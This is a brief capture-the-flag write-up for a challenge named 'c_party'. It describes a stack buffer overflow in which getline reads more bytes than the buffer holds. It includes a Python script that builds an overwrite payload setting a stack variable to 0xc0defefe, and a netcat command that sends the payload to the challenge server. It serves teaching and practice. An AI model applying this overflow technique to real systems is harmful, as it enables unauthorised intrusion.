 c_party
=====
* Tools used: IDA Free, GDB, Python, Netcat
* After taking a look at the binary using IDA, we observe that the flag must be printed just before the end of program if some stack variable contains the value `0xc0defefe`. If we inspect the arguments of `getline` we will observe that the allowed input size is bigger than the size of the buffer. Using Python, we could write a script that generates just the right input for the exploit:
```
data = b"a" * 32 + b"\xfe\xfe\xde\xc0" + b"\n"
with open("input.txt", "wb") as f:
    f.write(data)
```
* Run the exploit: nc <remote> <port> < input.txt
